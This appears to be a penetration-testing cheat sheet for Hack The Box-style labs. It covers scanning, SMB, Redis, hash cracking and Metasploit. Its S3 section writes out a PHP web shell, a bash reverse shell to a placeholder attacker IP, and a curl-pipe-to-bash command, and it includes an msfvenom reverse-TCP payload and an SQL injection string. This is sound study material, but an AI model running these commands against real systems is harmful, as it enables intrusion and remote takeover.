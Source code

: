 ###Pen-testing Tips and Tools

# `sudo` Exploitation

To get all commands that can be run with `sudo`:
sudo -l

It can be exploited with `less` to gain shell access.

# `nmap` (Network Mapper)

To probe open ports and check their service/version:
nmap -sV {ip}


To check all ports:
nmap -p- {ip}


To perform OS detection:
nmap -O {ip}


# `telnet`

Connect to a server using Telnet:
telnet {ip}


# `ftp`

Connect to a server using FTP. You can connect without an account by using the username "anonymous":
ftp {ip}


# `smbclient`

Used to connect to Windows environments over SMB/CIFS.

To list all available shares:
smbclient -L {ip}


To connect to a specific share:
smbclient {ip}/share


# `redis-cli`

Used to connect to a Redis database.

To access a remote Redis server:
redis-cli -h {ip} -p {port}


Some useful commands:
- `SELECT 0`: Select index database.
- `DBSIZE`: Get the size of the database.
- `KEYS *`: Show all keys.
- `GET {key}`: Show the content of a specific key.

# `dirb`

A tool for scanning HTTP pages. You can specify a wordlist to discover directories and files on a website.
dirb {url} /usr/share/wordlist


##SQL Injection

Exploiting SQL databases through unsanitized input.
- Example: `admin'#` to comment out the rest of the SQL query.

# `mysql` and `MariaDB`

To connect to SQL databases:
mysql -h {ip} -u {user}


Some useful SQL commands:
- `SHOW DATABASES;`
- `USE {database};`
- `SELECT * FROM {table};`

##File Inclusion Vulnerability

Exploiting PHP scripts that include files from URLs without proper sanitization.

# `responder`

A tool for LLMNR, NBT-NS, and MDNS poisoning techniques, which involve intercepting and responding to network name resolution requests.

To run `responder`:
sudo responder -I tun0


You can use this to redirect or manipulate network traffic.

# `john` (John the Ripper)

A tool for cracking password hashes.

To crack a hash:
john hash.txt


You can also use a wordlist to crack the hash:
john -w=/usr/share/wordlist hash.txt


# `evil-winrm`

Exploit and control Windows machines remotely.
evil-winrm -i {ip} -u {user} -p {password}


This is particularly powerful with administrator access.

# `wappanalizer`

A Firefox extension to analyze the technology stack used by websites.

# `gobuster`

A fuzzer tool for finding domains and directories in URLs using wordlists.

To find subdomains:
gobuster vhost -u {domain} -w {wordlist} --append-domain


# `nc` (Netcat)

To listen for a reverse shell:
nc -lvnp {port}


# `awscli`

Used to interact with AWS servers, domains, and S3 buckets.

To execute commands on an endpoint:
aws --endpoint={url} {type} {command}


##Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

1. Create a PHP script that executes commands:
echo '<?php system($_GET["cmd"]); ?>' > shell.php


2. Upload the script to the bucket:
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


3. Create a reverse shell script and listen on your machine:
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

##Netcat
nc -nvlp 1337


4. Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
{url}/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash


##Metasploit

Set up a reverse TCP shell on a Windows MS-SQL server.

In MSFVenom, create a payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe


In MSF6, use Metasploit:
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run


##Burp Suite

A tool to track all network and proxy traffic.

You can use the FoxyProxy extension to intercept and modify requests.

##Developer Mode

You can use the browser's developer tools to inspect and modify cookies.

# `wfuzz`

An HTTP request fuzzer that uses wordlists to replace and try different parameters.

Example with wordlist for file paths and parameters:
wfuzz -c -z file,/usr/share/wfuzz/wordlist/injection/SQL.txt -d “username=1&password=FUZZ” --hc 404 http://10.10.11.224:55555/FUZZ
